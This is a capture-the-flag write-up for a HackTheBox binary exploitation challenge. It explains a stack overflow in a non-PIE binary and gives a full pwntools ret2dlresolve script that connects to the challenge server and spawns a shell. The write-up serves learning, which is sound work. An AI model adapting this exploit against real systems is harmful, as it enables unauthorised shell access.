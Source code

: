 # Day18 - void

- **Platform**: HackTheBox  
- **Category**: Pwn  
- **Difficulty**: Hard  
- **Date**: 2025-05-18  
- **Tools Used**: pwntools, GDB, checksec  

---

## Summary
The `void` binary was a non-PIE, NX-enabled program with partial RELRO and no stack canary. Exploiting a vulnerable `read()` call, I built a ret2dlresolve ROP chain to dynamically resolve and call `system("/bin/sh")`, gaining a shell and retrieving the flag.

---

## Enumeration
- Provided files:  
  - `void` (binary)  
  - `glibc` folder with custom libc and loader  
  - `flag.txt` (dummy)  

- Behavior:  
  - Running `./void` or connecting with `nc` produced no output.  
  - Disassembly showed `main()` directly calling `vuln()`.  

- Vulnerability:  
  - In `vuln()`, a 64-byte stack buffer was overrun by:
    ```c
    read(fd=0, buf, 200);
    ```
  - Protections (via `checksec`):  
    - Partial RELRO → GOT partly writable  
    - No canary → stack overflow possible  
    - NX enabled → stack non-executable  
    - No PIE → fixed addresses for ROP  

---

## Exploitation
1. **Offset Discovery**  
   - Generated cyclic pattern in GDB.  
   - Found RIP offset = 72 bytes.  

2. **ROP Payload**  
   - Crafted ret2dlresolve exploit targeting `system("/bin/sh")`:  
     ```python
     from pwn import *

     void = ELF("void")
     libc = ELF("glibc/libc.so.6")
     ld   = ELF("glibc/ld-linux-x86-64.so.2")
     context.binary = void.path

     rop = ROP(void)
     resolver = Ret2dlresolvePayload(void, symbol="system", args=["/bin/sh"])

     rop.read(0, resolver.data_addr)
     rop.raw(rop.ret[0])
     rop.ret2dlresolve(resolver)
     chain = rop.chain()

     p = remote("83.136.250.158", 39848)
     p.sendline(b"A"*72 + chain)
     p.sendline(resolver.payload)
     p.interactive()
     ```
   - Used `read()` to stage the resolver structures, then invoked ret2dlresolve.  

3. **Execution**  
   - Ran exploit script, obtained a shell.  
   - Navigated the filesystem and read `/root/flag.txt`.  

---

## Lessons Learned
- **ret2dlresolve**: bypasses restrictions by dynamically resolving libc functions at runtime.  
- **ROP chaining**: combine gadgets to call functions like `read()` and control program flow.  
- **Protections analysis**: knowing which defenses (NX, RELRO, PIE, canary) are enabled dictates exploitation strategy.  
- **Offset calculation**: GDB cyclic patterns are the fastest way to determine buffer overflow offsets.  
